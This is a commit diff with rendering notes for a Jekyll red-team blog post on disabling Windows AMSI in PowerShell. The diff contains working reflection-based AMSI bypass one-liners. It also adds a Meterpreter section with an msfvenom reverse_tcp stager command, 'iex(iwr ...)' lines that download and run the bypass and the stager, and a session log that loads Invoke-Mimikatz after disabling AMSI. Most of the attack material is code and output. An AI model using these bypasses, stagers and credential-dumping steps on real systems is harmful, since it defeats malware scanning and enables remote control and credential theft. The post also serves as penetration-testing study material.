

Before and after one commit to phra/phra.github.io, a Jekyll site: the page built from posts/amsi.md, in a window 1280 px wide and 1400 px high, scrolled down 6290 px. Shown: the whole window at 89% size, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7161 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update amsi.md

````diff
--- a/posts/amsi.md
+++ b/posts/amsi.md
@@ -73,22 +73,16 @@
 If we are able to force an error inside AMSI, the protected field `amsiInitField` will be set and AMSI won't be called anymore.
 
 ```powershell
-$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
-[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null)
-[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
+$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076) # allocate some memory
+[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null) # overwrite `amsiSession`
+[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem) # overwrite `amsiContext`
+Write-host -ForegroundColor green "AMSI won't be called anymore"
 ```
 
 ### Setting amsiInitFailed to $true
 
+Instead of causing an error, we can also directly set ourselves the `amsiInitField` property.
 [@mattifestation](https://twitter.com/mattifestation) bypass is so short to fit into a [tweet](https://twitter.com/mattifestation/status/735261176745988096). [3]
-
-```powershell
-[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
-```
-
-The `amsi.dll` instance loaded has a private field called `amsiInitFailed`.
-It's not directly exposed due to the fact that the field is private, but thanks to the [.NET Reflection API](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection) we can access it.
-By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `AmsiScanBuffer` won't be called anymore.
 
 ```powershell
 $amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') # get `amsi.dll` handle
@@ -97,13 +91,16 @@
 Write-host -ForegroundColor green "AMSI won't be called anymore"
 ```
 
+The `amsiInitFailed` property is not directly exposed due to the fact that the it's declared private, but thanks to the [.NET Reflection API](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection) we can access it.
+By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `AmsiScanBuffer` won't be called anymore.
+
 ### Patching AmsiScanBuffer
 
 It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run.
 
 ![AMSI Patch](../assets/images/amsi-patch.png "AMSI Patch")
 
-In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version.
+In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest version.
 
 ```powershell
 # Add-Type writes *.cs on disk!!
@@ -229,10 +226,73 @@
 
 ### Meterpreter
 
-_TODO_
+We can use the bypass to first spawn a meterpreter instance via PowerShell and then to execute any `*.ps1` scripts. A [PR](https://github.com/rapid7/rex-powershell/pull/17) is on its way.
+For now, to spawn it we need to generate the stager via the following command:
 
-[PR](https://github.com/rapid7/rex-powershell/pull/17)
+```asd
+msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=3000 LHOST=127.0.0.1 -f psh > meter.ps1
+```
 
+and execute the bypass before it:
+
+```powershell
+iex(iwr https://127.0.0.1/Invoke-Bypass.ps1)
+Invoke-BypassScriptBlockLog
+Invoke-BypassAMSI
+iex(iwr https://127.0.0.1/meter.ps1)
+```
+
+We can also use the AMSI bypass to execute arbitrary PowerShell code on the machine from a meterpreter session. If we try to _execute_ `'amsiutils'` in a PowerShell session you will get something like this:
+
+```asd
+msf5 exploit(multi/handler) > sessions 1
+[*] Starting interaction with 1...
+
+meterpreter > load powershell
+Loading extension powershell...Success.
+meterpreter > powershell_execute "'amsiutils'"
+[+] Command execution completed:
+ERROR:
+```
+
+but if we load [Invoke-Bypass](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) and execute the bypasses, we are then allowed to run ay kind of command, including, for example, [Invoke-Mimikatz](https://github.com/d0nkeys/redteam/blob/master/credentials/Invoke-Mimikatz.ps1).
+
+```
+meterpreter > powershell_import Invoke-Bypass.ps1
+[+] File successfully imported. No result was returned.
+meterpreter > powershell_execute "Invoke-BypassScriptBlockLog"
+[+] Command execution completed:
+
+meterpreter > powershell_execute "Invoke-BypassAMSI"
+[+] Command execution completed:
+
+meterpreter > powershell_execute "'amsiutils'"
+[+] Command execution completed:
+amsiutils
+
+meterpreter > powershell_import Invoke-Mimikatz.ps1
+[+] File successfully imported. No result was returned.
+meterpreter > powershell_execute "Invoke-Mimikatz -Command coffee"
+[+] Command execution completed:
+
+  .#####.   mimikatz 2.1.1 (x64) #17763 Dec 31 2018 01:15:11
+ .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
+ ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
+ ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
+ '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
+  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
+
+mimikatz(powershell) # coffee
+
+    ( (
+     ) )
+  .______.
+  |      |]
+  \      /
+   `----'
+
+meterpreter >
+```
 
 ## References
 
````
